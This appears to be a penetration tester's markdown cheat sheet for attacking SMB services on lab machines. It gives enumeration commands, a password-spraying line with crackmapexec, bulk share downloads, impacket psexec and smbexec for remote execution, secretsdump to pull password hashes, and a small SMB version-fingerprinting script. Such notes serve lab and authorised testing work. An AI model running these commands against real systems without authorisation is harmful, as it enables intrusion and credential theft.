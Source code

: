 # SMB  
---------

### enum4linux:

```bash
python3 /opt/enum4linux-ng/enum4linux-ng.py 10.10.10.100
```

### rpclient:

```bash
rpcclient 10.10.104.212 -U ""    #anonymous authentication
```

### smbmap:

```bash
smbmap -H 10.10.10.100 -r   #unauthenticated
smbmap -H 10.10.10.100 -u SVC_TGS -p password
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p password 
```

if we get an error like this 

```bash
smbmap -H atom.htb             

[!] Authentication error on atom.htb
```

we can try some random username and password:

```bash
smbmap -H atom.htb -u ci -p cib                            
```


### smbclient:

```bash
smbclient -L \\10.10.10.100\\   #list shares unauthenticated
smbclient //10.10.10.100/Replication #connect unauthenticated
smbclient //10.10.10.100/Replication -U ""%"" #connect unauthenticated
smbclient //10.10.10.100/Users -U active.htb/SVC_TGS #connect authenticated; will prompt for password
smbclient //10.10.10.100/C$ -U active.htb\\administrator
```

download everything:
```bash
recurse ON
prompt OFF 
mget *
```


### crackmapexec:

```bash
cme smb 10.10.10.10 -u username -p password #password spray or checking for valid creds

cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --shares   #list shares

crackmapexec smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus

crackmapexec smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus -o READ_ONLY=false ##dumpallfiles
```

### impacket:

```bash
python3 psexec.py active.htb/administrator@10.10.10.100

python3 smbexec.py active.htb/administrator@10.10.10.100
```

If the the IPC$ share has read access use impacket to enumerate usernames:
```bash
IPC$   READ ONLY	Remote IPC
```

```bash
python3 /opt/wintools/impacket/examples/lookupsid.py anonymous@10.10.251.139
```

If the ADMIN$ share has read and write access use secretsdump.py to extract hashes:
```bash
python3 /opt/wintools/impacket/examples/secretsdump.py vulnnet-rst.local/a-whitehat@10.10.168.11 
```

### mounting smb shares:
windows:
```bash
sudo mount -t cifs //10.10.10.10/Backups /mnt/backup

sudo mount -t cifs -o 'user=t.thompson,password=' //10.10.10.182/Data /mnt/data
```


## checking smb version using wireshark 

if the victim is old and uses smbv1 the smbclient tool does not connect throwing protocol fail error, in that case add these lines under global settings in /etc/samba/sm.b.conf

```txt
client min protocol = CORE
client max protocol = SMB3
#client min protocol = SMB1
```

use this script to initiate a smb connection and capture the requests using wireshark to determine the smb version:

```bash
#!/bin/bash

if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tun0 src $rhost and port $rport -A -c 10 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
echo "" && sleep .1
```

in most cases enum4linux-ng gave me the correct smb version.

https://4pfsec.com/manually-enumerating-smb-version/

- [ ] Include setting up an anonymous smb share